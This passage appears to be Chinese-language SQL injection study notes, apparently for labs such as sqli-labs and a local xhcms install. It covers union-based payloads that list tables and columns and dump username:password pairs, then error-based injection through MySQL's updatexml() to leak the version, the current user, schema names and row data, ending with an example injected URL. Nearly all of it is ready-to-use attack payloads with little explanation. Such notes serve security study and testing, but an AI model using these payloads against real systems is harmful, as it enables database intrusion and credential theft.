 
爆表名

-1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database() --+

爆列名

-1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' --+

爆字段

-1' union select 1,group_concat(username,":",password),3 from users --+

## 报错注入

### updatexml()函数

#### updataxml()函数用法

```mysql
UPDATEXML (XML_document, XPath_string, new_value);
```

第一个参数：XML_document是String格式，为XML文档对象的名称

第二个参数：XPath_string (Xpath格式的字符串) 

第三个参数：new_value，String格式，替换查找到的符合条件的数据

作用：改变文档中符合条件的节点

#### updatexml报错注入用法

##### 爆出数据库的版本信息

```mysql
and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```

因为concat()是将其连接成一个字符串，不符合xpath_string格式，会出现格式错误而报错，并会爆出

##### 爆出连接用户

```mysql
and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)
```

##### 爆表

```mysql
and updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0)
```

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=数据库的十六进制表示 limit 0,1) ,0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=0x7868 limit 0,1) ,0x7e),1)
```

##### 爆列名

```mysql
and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=0x7868 and table_name= 表的十六进制表示 limit 2,1),0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=库的十六进制表示 and table_name=表的十六进制表示 limit 2,1),0x7e),1)
```

##### 查数据

```mysql
and updatexml(1,concat(0x7e,(select 列名 from 表名 limit 0,1),0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select 列名 from 表名 limit 0,1),0x7e),1)
```

##### 例子

```mysql
http://localhost/xhcms/index.php?r=content&cid=1 and updatexml(1,concat(0x7e,(select title from content limit 0,1),0x7e),1)
```